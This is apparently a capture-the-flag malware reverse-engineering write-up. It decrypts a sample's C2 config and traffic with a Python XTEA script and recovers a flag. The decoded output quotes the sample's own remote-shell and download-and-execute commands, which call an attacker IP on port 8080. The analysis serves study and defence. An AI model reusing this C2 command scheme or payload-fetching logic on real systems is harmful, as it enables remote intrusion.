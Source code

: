 ```yaml
---
title: Rev Capture Point 2025
published: 2025-04-22
description: This is first challenge Rev I solved in Malware category 
tags: [Example, Video]
category: Examples
draft: true
---
```


# REV CapturePoint
>Solver: kAiZ3n
>Artifact : sample.exe and capture.pcap

First I see the program was using ws_32.dll to open socket connect with TCP
```
 v15 = socket(2, 1, 6);
```
```
 ModuleHandleW = GetModuleHandleW(0LL);
      v5 = GetModuleHandleW(0LL);
      ResourceA = FindResourceA(v5, "DATA", "CONFIG");
      v7 = ResourceA;
      if ( ResourceA
        && (v8 = SizeofResource(ModuleHandleW, ResourceA), (Resource = LoadResource(ModuleHandleW, v7)) != 0LL)
        && (v10 = LockResource(Resource)) != 0LL
        && v8 >= 0x42 )
      {
        v11 = malloc(v8);
        memset(v11, 0, v8);
        memcpy(v11, v10, v8);
        sub_140001750(v11, v8);
        cp = (char *)v11;
```
Here is The program was looking Source for "cp" on itself PEs file with the size of resource == 0x42 we'll use PEbear and HxD to look up exactly value it 
and it seems ipaddr and port to open socket was be obfuscated in cp variable and this func for handling 
![image](https://hackmd.io/_uploads/HypI4ucTkg.png)
in the key logic in this func , which'll create key and decrypt RC4
Here is func created key 
![image](https://hackmd.io/_uploads/ByUSrd9aJl.png)
```
def generate_key(data: bytes) -> bytes:
    return bytes([b ^ 0x2F for b in data])

# Test
input_data = b"xg`nakxgj}jf|bvbn|{j}"

key = generate_key(input_data)
print("Generated Key:", key)


Generated Key: b'WHOANDWHEREISMYMASTER'
```
and then we'll find data of "CONFIG" resouce to decrypt it with key above in PE file
```
*(_WORD *)hKey.sa_data = htons(*((_WORD *)cp + 32));
*(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
```
After Decrypting I got Ip address of attacker 
- ip.addr == 192.168.138.67
- port == cp[32] == "P" == to int == 80
![image](https://hackmd.io/_uploads/Sy8gdv9TJg.png)
Oke the next step I'll start proccessing pcap file with available details also we looked up 
![image](https://hackmd.io/_uploads/HkLq_wq6kg.png)
I recognized attacker sended out a few encrypted payload to client and processed it as commandHandler program . ThereFore I looked up API call recv from ws_32.dll windows to check it out
At here 
![image](https://hackmd.io/_uploads/HJNUtPqa1e.png)
the payload sended out in sub_1400020C0()
and then I'll analysis sub_1400020C0 function
![image](https://hackmd.io/_uploads/Hk1AYD9p1e.png)
the key logic in here the payload'll be decrypted with base64 and then it'll compare the first char if it == "D" which slipt command with delitermine "|" and then store them in v10 and the next in v11
Otherwise if it == "E" which decrypted one more with payload'll be send it in sub_1400019F0 (I'll replace sub_1400019F0 to CommandHandler for convinient with my next process)
and after handling it'll split the same with condition of char "D"
the logic code of commandHandler func as decrypting use XXTEA alogrithm
Because the payload 1 was be recognized as "D" condition so it use v10 = "KEYEXCH" and v11 = "ENCRYPTTRAFFIK07" and this case'll save data of qword_1400086F0 as key for decrypting in CommandHandler
![image](https://hackmd.io/_uploads/ryuonwc6yl.png)
we'll use it to decrypting with "E" condition 
I wrote script for decrypting 
```
import base64
import struct
COMMANDS = {
        222930539: "SAVE_DATA",
        691556979: "RUN_PROCESS",
        -1988075216: "WRITE_PIPE",
        697129745: "CLEANUP",
        224984815: "CUSTOM_ACTION",
        1354554278: "READ_FILE",
        224984815 : "DOWNEXEC"
    }
def xtea_decrypt(key, block):
    v0, v1 = struct.unpack('>2L', block)
    delta = 0x9E3779B9
    mask = 0xFFFFFFFF
    sum = (delta * 32) & mask
    for _ in range(32):
        v1 = (v1 - ((v0 << 4 ^ v0 >> 5) + v0 ^ sum + key[sum >> 11 & 3])) & mask
        sum = (sum - delta) & mask
        v0 = (v0 - ((v1 << 4 ^ v1 >> 5) + v1 ^ sum + key[sum & 3])) & mask
    return struct.pack('>2L', v0, v1)

def decrypt_gorillabot_data(encrypted_data, keystream):
    key = [struct.unpack('>L', keystream[i:i+4])[0] for i in range(0, 16, 4)]
    decrypted_data = b''
    for i in range(0, len(encrypted_data), 8):
        decrypted_data += xtea_decrypt(key, encrypted_data[i:i+8])
    return decrypted_data.rstrip(b'\x00')
def decode_input(input_str):
    try:
        decoded = base64.b64decode(input_str)
        
        # Kiểm tra định dạng
        if decoded[0] == ord('D'):
            return decoded[1:]
        elif decoded[0] == ord('E'):
            keystream = b'ENCRYPTTRAFFIK07'[:16]
            result = decrypt_gorillabot_data(decoded[1:],keystream)
            return result
        else:
            return "Invalid format"
    except Exception as e:
        return f"Error: {e}"
inputs = [
    "REtFWUVYQ0h8RU5DUllQVFRSQUZGSUswNw==",
    "RS1J1SxUJcq0y6CmpvlFHTUxUub0NrsRb96TEwoWI5GFR0RM/jkk9ZA=",
    "RXUBvuF7XzYu3La0O/fiqLx3nHSXTn7Ghw==",
    "RT6v61YF2uq+B5OOcTNe7h8=RT6v61YF2uq+B5OOcTNe7h8=",
    "RSPPpIhlKGAsCmnkR3kD+uD5g30DH199VGWitl4BFgiF7LhZMn4GWFBrg40R9ty2p1pAStWd399I==",
    "RSPPpIhlKGAsCmnkR3kD+uD5g30DH199VGWitl4BFgiF7LhZMn4GWFDRIh1agXJSpaR7Fxcm+fFl==",
   ]
def ror(value, bits, width=32):
    """Xoay phải (ROR) giá trị 'value' đi 'bits' bit trên 'width' bit."""
    return ((value >> bits) | (value << (width - bits))) & ((1 << width) - 1)

def calculate(input_string: str) -> int:
    v10 = list(input_string.encode()) 
    v13 = 0 
    v15 = len(v10)  
    
    while v15 > 0:
        v16 = v10.pop(0) 
        v13 = v16 + ror(v13, 13)
        v15 -= 1 

    return v13
for idx, input_str in enumerate(inputs):
    print(f"Input {idx + 1}:")
    result = decode_input(input_str)
    print(f"  Decoded: {result}\n")
```
Artifact after decrypting
Input 1:
  Decoded: ['KEYEXCH', 'ENCRYPTTRAFFIK07']

Input 2:
  Decoded: b'CMDSHEL|C:\\windows\\system32\\cmd.exe'

Input 3:
  Decoded: b'EXECCMD|cd %temp%\n'

Input 4:
  Decoded: b'EXITSHEL'

Input 5:
  Decoded: b'DOWNEXEC|http://192.168.138.67:8080/data.png|DEKRYPT|0'

Input 6:
  Decoded: b'DOWNEXEC|http://192.168.138.67:8080/data.txt|DEKRYPT|1'
 
Amazing when it's using port 8080 to download the payload else 
when it run in "DOWNEXEC" case 

![image](https://hackmd.io/_uploads/Hk7sRvcpJg.png)
oke let'go,we look at the PCAP file a bit
![image](https://hackmd.io/_uploads/SJW6i39akg.png)
As with Payload, I was Decrypt, now come back to source code IDA
the strings'll continuely split with v22 = "DEKRYPT" , v25 ="0" (if input 5 and = "1" with input 6) and then it'll convert bytes to UNICODE and v25 = v22 = "DEKRYPT" and sub_140002890() will continue handling the payload data.png or data.txt I follow to this function and I recoginzed the meaning of the last char of input for "0/1"
if it is "0" which will download file and save in folder **%temp%\kri<randomstring>.tmp** or it is "1" which will  download file and run this file  with ```<namefile> "DEKRYPT"```
I'll download file data.txt with parameter "1" to figure it out doing
The file is PEs be written by C program 
![image](https://hackmd.io/_uploads/ryb8-_qa1g.png)
At main code it using argv[1] to convert Unicode and send it in sub_140001260
![image](https://hackmd.io/_uploads/HkaO-_9pJx.png)
at the key logic of this func is using AES algorithm with key was using the hash algorithm '**sha256 of"DEKRYPT"**' from **argv[1]** ran with the first PE with CreateProcess at v27 variable 
    ![image](https://hackmd.io/_uploads/rJTyGu5p1g.png)
and the encrypted data is data.png (data.png I got it from pcap tcp stream of ip.addr==192.168.138.67 and tcp.port==8080)
oke After grabs logic code I'll handle data.png decrypt it with key "DEKRYT" and got flag 
nai xừ :D
![image](https://hackmd.io/_uploads/HkCyQu5aJl.png)
